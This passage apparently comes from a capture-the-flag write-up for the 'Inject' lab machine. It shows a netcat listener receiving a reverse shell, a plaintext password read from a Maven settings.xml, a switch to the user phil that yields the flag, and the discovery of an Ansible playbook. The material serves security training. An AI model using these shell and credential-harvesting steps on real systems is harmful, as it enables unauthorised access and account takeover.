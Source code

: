 ```html
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.109] from (UNKNOWN) [10.10.11.204] 39990
frank@inject:/$
```

There doesn’t appear to be a user flag in `frank`’s home dir. But I did find the `.m2` maven directory. Inside the `.m2/settings.xml` we find a username and password for `phil`:

```html
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

I login as `phil` and retrieve the user flag:

```html
frank@inject:~$ su - phil
Password: 
phil@inject:~$ cat user.txt
d5595286de1e15da7d13f5ef5accda4a
```

## System

There’s an `.ansible` directory in `phil`'s home. I found a simple ansible playbook:

```html
phil@inject:~$ find / -name '*.y*ml' 2> /dev/null | grep -v '/usr/lib/python3'
/opt/automation/tasks/playbook_1.yml
phil@inject:~$ cat /opt/automation/tasks/playbook_1.yml 
- hosts: localhost
  tasks:
  - name: Checking webapp service
    ansible.builtin.systemd:
      name: webapp
      enabled: yes
      state: started
```

